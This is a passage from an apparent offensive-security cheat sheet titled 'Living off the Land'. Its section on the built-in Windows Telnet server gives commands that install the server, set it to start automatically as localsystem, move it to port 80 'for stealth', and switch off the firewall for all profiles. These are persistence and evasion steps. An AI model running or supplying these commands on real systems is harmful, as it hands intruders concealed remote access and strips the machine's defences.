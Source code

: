# Living off the Land

## 01 - Telnet Server

### 1.1 - Command Prompt

Until Windows 10, all Windows came with a **Telnet server** that you could install as administrator:

```
C:\Windows\system32> pkgmgr /iu:"TelnetServer" /quiet
```

Make it **start** when the system is started and **run** it now:

```
C:\> sc config TlntSVR start= auto obj= localsystem
```

Change telnet port (stealth) and disable firewall:

```
C:\> tlntadmn config port=80

C:\> netsh advfirewall set allprofiles state off
```